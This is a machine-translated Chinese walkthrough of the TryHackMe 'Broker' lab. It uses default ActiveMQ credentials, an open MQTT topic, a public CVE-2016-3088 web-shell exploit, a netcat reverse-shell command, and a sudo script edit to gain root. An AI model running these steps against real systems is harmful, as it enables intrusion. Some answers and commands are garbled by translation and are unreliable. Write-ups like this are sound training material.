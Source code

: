 # 经纪人 Tryhackme 报道

> 原文：<https://infosecwriteups.com/broker-tryhackme-writeup-f9cf3971e4da?source=collection_archive---------8----------------------->

**作者 Shamsher khan 这是一篇关于 Tryhackme room“Broker”**的文章

![](img/b68e38c517b1eb312d90d754fa1d4b36.png)

[https://www.tryhackme.com/room/broker](https://www.tryhackme.com/room/broker)

**房间链接:**[https://www.tryhackme.com/room/broker](https://www.tryhackme.com/room/broker)
**注:此房免费**

保罗和马克斯通过使用某种软件找到了一种在工作时聊天的方法。他们认为他们比老板聪明，但似乎不知道窃听是很可能的…他们最好小心..

**问题 1:** 对端口号大于 1000 小于 10000 的所有端口进行 TCP 端口扫描！您发现哪些 TCP 端口是开放的？(向上计数)

![](img/a1300c91ff2ecfc0df080f8f78f8b04d.png)

> ***答案:18838161***

问题 2: 他们使用的软件叫什么名字？

![](img/b7d89fe23c5bf1defe1fcee89ec9c45f.png)

> ***答案:ActiveMQ***

![](img/ef99363adbfb55cf6dd89eb3279ff0bb.png)

我尝试了默认凭证，admin:admin 为我们工作

![](img/c344f77f1c3a4f7507370da145d50bb2.png)

注意到一个版本号，即 **5.9.0**

问题 3: 保罗和马克斯在谈论哪个电子游戏？

查看上面的结果，一个端口作为 MQTT 服务器返回，另一个作为 Jetty 返回。MQTT 协议提供了发布和订阅模型的轻量级方法。基本上是作为一个轻量级的消息协议。在我们的例子中，它启用了空身份验证，这意味着我们可以订阅任何发布的消息，而无需任何有效的凭据。我决定在后台订阅任何已发布的模型。

此时，很明显我们需要与运行在端口 1883 上的守护进程`mqtt`对话(检查 nmap 扫描)。所以搜索一个`mqtt`客户端找到了这个:

> [*https://github.com/eclipse/paho.mqtt.python#getting-started*](https://github.com/eclipse/paho.mqtt.python#getting-started)

也发现这个链接非常有用:

> [*http://www . steves-internet-guide . com/into-mqtt-python-client/*](http://www.steves-internet-guide.com/into-mqtt-python-client/)

但是我们仍然需要一个“主题”让`subscribe()`订阅主题和接收消息。这是在这里发现的:

> [*http://10 . 10 . 120 . 228:8161/admin/XML/topics . JSP*](http://10.10.120.228:8161/admin/xml/topics.jsp)

![](img/2dfef88eacfc4bfbf198e45820e12ddd.png)

所以编辑了来自 GitHub 链接的代码，并添加了主题、目标的 IP 地址和 MQTT 版本，它需要是 3.1:

```
pip install paho-mqtt
```

![](img/dc577654086f8f118b1a9781a1eee34f.png)![](img/b281a543d8adfb617b8a37b938ea6569.png)

> **答案:黑客网**

现在我们需要利用这个版本的 ActiveMQ 中的一些漏洞来继续前进。Searchsploit 发现了一个同样适用于 5.9.0 的漏洞。

![](img/9b47beed09d83a477c5bbf6157554c00.png)

出于某种原因，用于探索的 Metasploit 模块不工作，所以搜索任何可用的漏洞，并在 GitHub 上找到了这个:

> 【https://github.com/gsheller/ActiveMQ_putshell-CVE-2016-3088 

运行起来非常简单:

![](img/3156ca6ed23fc56b225157ac25f43388.png)

而这个在放了一个 web shell，像[http://](http://10.10.120.228:8161/admin/guo.jsp?pwd=gshell&shell=whoami)[broker . thm](http://10.10.120.228:8161/admin/guo.jsp)[:8161/admin/Guo . JSP 那样使用？pwd = g shell&shell =](http://10.10.120.228:8161/admin/guo.jsp?pwd=gshell&shell=whoami)uname-a 获取远程代码执行

![](img/07b71f4cc115663e621865f7d4beaa4a.png)

# 反向外壳

现在，为了获得一个反向的外壳，尝试了一些有效载荷，这个成功了，给了我们一个反向。注意:在执行反向 shell 有效负载 URL 之前，在攻击机器上启动 netcat 监听器，并使用您自己的 IP 地址替换 IP 地址:

在 netcat 上启动监听器

```
nc -lvp 4444
```

> *NC 10 . 2 . 12 . 26 4444-e/bin/sh*

![](img/31017f1eeaa702df72e2f61889e2dbdc.png)![](img/61fb422a48557b455373092e6586640a.png)

**升级并稳定 Shell** *在目标上运行以下命令升级当前 shell:*

> *script-QC/bin/bash/dev/null
> export TERM = xterm*

**flag.txt**

![](img/d50d6ea6f97bcc771b200a64aa53a29d.png)

# 权限提升

运行`sudo -l`表示我们可以运行`/opt/apache-activemq-5.9.0`目录中的`subcribe.py`。当前用户 activemq 对该文件也有写权限

![](img/e6021b1693571bb0d543305d7f0732ac.png)

因此，我们可以通过使用 nano 在`subcribe.py`中添加以下代码来轻松获得 root，因为 vi 在目标上不可用:

![](img/230aa6a1263ddca3f69d4c430f06afda.png)![](img/d61a64e9a95ca25ab04eb83b85ae1206.png)

我们得到了 **Root.txt**

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)

![](img/09e5bbba06c7688a702aeec8570d243c.png)

更多演练请继续关注…
在您离开之前…

[![](img/149e778f03405fe40fb89bb9dbc5034d.png)](https://t.me/tryhackme_writeups)

[**点击此处加入电报**](https://t.me/tryhackme_writeups)

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！